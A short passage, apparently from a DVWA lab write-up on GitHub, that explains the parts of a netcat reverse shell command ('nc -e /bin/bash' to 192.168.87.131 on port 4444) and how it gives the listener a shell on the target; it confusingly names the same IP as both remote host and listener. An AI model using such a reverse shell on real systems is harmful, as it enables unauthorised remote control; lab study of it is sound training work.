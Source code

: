 ![1](https://github.com/nahcusira/dvwa/assets/87233531/a28de5fa-5830-4054-be46-eec26e383ff8)

192.168.87.131 is the IP address of the remote host.

nc -e /bin/bash specifies that the netcat utility should be used to create a connection and execute the /bin/bash shell on the remote host.

192.168.87.131 is the IP address of the listening device.

4444 is the port number on which the netcat listener is running on the listening device.

When this command is executed on the remote host, it establishes a connection to the listening device and opens a shell on the remote host, allowing the person on the listening device to execute commands on the remote host.

